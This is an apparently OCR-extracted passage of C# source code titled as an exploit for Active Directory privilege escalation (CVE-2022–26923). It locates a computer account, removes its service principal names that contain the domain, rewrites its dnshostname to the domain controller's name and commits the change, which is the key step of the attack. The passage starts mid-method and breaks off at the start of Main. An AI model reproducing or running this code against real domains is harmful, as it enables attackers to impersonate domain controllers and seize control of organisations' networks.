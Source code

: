 ```// Exploit for Active Directory Domain Privilege Escalation (CVE-2022–26923)
            if (result != null)
            {
                Console.WriteLine("[*] Found object");

                DirectoryEntry entryToUpdate = result.GetDirectoryEntry();

                if (result.Properties.Contains("serviceprincipalname"))
                {
                    Console.WriteLine("[*] Found serviceprincipalname");

                    var spnEntries = entryToUpdate.Properties["serviceprincipalname"];
                    int i;

                    Console.WriteLine("[*] Original list:");

                    foreach(var s in spnEntries)
                        Console.WriteLine(s.ToString());

                    for (i=0; i<spnEntries.Count;i++)
                    {
                        //Console.WriteLine(spn.ToString());
                        if (spnEntries[i].ToString().Contains(domain))
                        {
                            Console.WriteLine("[*] Found spn hostname:");
                            Console.WriteLine(spnEntries[i].ToString());
                            spnEntries.Remove(spnEntries[i]);
                        }
                    }

                    Console.WriteLine("\n[*] Removed hostnames complete");

                    Console.WriteLine("[*] New serviceprincipalnames (verify no dns hosts inside):");

                    foreach (var spn in spnEntries)
                        Console.WriteLine(spn.ToString());

                    entryToUpdate.Properties["serviceprincipalname"].Value = spnEntries.Value;

                }

                if (result.Properties.Contains("dnshostname"))
                {
                    Console.WriteLine("[*] Updating dnshostname attribute");
                    var dnsEntry = entryToUpdate.Properties["dnshostname"];
                    dnsEntry.Value = dchost;
                }

                Console.WriteLine("[*] Committing changes");
                entryToUpdate.CommitChanges();
            }
            else
            {
                Console.WriteLine("[!] Object not found");
            }
            entry.Close();
            entry.Dispose();
            mySearcher.Dispose();
        }

        static void Main(string[] args)
        {
            if (args.Length < 3)
```